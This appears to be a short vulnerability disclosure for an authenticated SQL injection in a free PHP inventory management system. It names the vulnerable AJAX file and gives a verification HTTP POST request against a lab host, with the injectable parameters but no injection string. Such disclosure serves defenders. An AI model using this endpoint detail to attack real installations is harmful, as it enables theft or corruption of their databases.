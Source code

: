 



The Free and Open Source inventory management system has an SQL injection vulnerability that an attacker, if authenticated, can exploit to steal information or corrupt a database.





Source code address：https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html



The vulnerability is located in the /app/ajax/search_purchase_paymen_report.php file, and SQL statement splicing is found in the code fragment.

![image-20250326145844989](images/image-20250326145844989.png)

![image-20250326145908094](images/image-20250326145908094.png)





Vulnerability verification：

```
POST /ample/app/ajax/search_purchase_paymen_report.php HTTP/1.1
Host: 192.168.80.152
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
DNT: 1
Cookie:  PHPSESSID=c4gam437gl7cc6hlbsgm3pplq4
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 24

issuedate=3&customer=all
```

 ![image-20250326145758858](images/image-20250326145758858.png)



































